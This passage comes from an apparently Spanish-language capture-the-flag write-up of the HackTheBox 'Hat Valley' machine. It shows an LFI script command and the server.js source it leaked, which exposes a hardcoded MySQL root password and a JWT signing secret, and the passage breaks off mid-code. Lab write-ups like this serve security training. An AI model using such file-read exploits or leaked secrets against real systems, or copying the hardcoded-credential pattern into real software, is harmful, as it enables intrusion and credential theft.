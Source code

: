 Y traigo el archivo que monta el servidor, ```server.js```

```null
python3 lfi.py /var/www/hat-valley.htb/server/server.js
const express = require('express')
const bodyParser = require('body-parser')
const cors = require('cors')
const jwt = require('jsonwebtoken')
const app = express()
const axios = require('axios')
const { exec } = require("child_process");
const path = require('path')
const sha256 = require('sha256')
const cookieParser = require("cookie-parser")
app.use(bodyParser.json())
app.use(cors())
app.use(cookieParser())
const mysql = require('mysql')
const { response } = require('express')
const connection = mysql.createConnection({
  host: 'localhost',
  user: 'root',
  password: 'SQLDatabasePassword321!',
  database: 'hatvalley',
  stringifyObjects: true
})
const port = 3002

const TOKEN_SECRET = "123beany123"

app.post('/api/login', (req, res) => {
  const {username, password} = req.body
  connection.query(
    'SELECT * FROM users WHERE username = ? AND password = ?', [ username, sha256(password) ],
    function (err, results) {
      if(err) {
        return res.status(401).send("Incorrect username or password")
      }
      else {
        if(results.length !== 0) {
          const userForToken = {
            username: results[0].username
          }
          const firstName = username.split(".")[0][0].toUpperCase() + username.split(".")[0].slice(1).toLowerCase()
          const token = jwt.sign(userForToken, TOKEN_SECRET)
          const toReturn = {
            "name": firstName,
            "token": token
          }
          return res.status(200).json(toReturn)
        }
        else {
          return res.status(401).send("Incorrect username or password")
        }
      }
    }
  );
})

app.post('/api/submit-leave', (req, res) => {
  const {reason, start, end} = req.body
  const user_token = req.cookies.token
  var authFailed = false
```